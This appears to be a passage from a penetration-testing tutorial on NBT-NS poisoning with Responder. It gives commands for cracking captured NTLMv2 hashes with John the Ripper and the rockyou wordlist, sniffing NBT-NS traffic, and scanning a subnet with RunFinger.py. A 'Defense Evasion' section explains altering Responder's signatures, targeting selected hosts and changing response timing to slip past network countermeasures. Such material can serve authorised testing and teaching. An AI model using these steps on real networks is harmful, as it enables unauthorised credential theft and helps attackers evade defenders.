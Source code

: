 #### Using John the Ripper

```bash
# Crack NTLMv2 hashes with John
john --format=netntlmv2 captured_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Advanced Analysis and Targeting

#### Network Traffic Analysis

Monitor Responder's activity using Wireshark:

```bash
# Start Wireshark with a filter for NBT-NS traffic
sudo wireshark -i eth0 -f "udp port 137" &
```

#### Targeting Specific Users or Systems

For more focused attacks, you can use additional tools like RunFinger.py to identify potential targets:

```bash
# Identify potential targets
sudo python3 RunFinger.py -i 192.168.1.0/24
```

### Defense Evasion Techniques

Modern networks often have countermeasures against NBT-NS poisoning. Here are some evasion techniques:

#### Modifying Signatures

Edit Responder to change default signatures that may be detected:

```bash
# Edit fingerprint.py
nano fingerprints.py
```

#### Using Selective Targeting

Target specific systems rather than responding to all requests:

```bash
# Target specific hosts
sudo python3 Responder.py -I eth0 -i 192.168.1.10,192.168.1.15
```

#### Timing Adjustments

Implement delays between responses to avoid detection:

```bash
# Modify Responder's timing by editing the source code
# Look for response timing parameters in the source
```
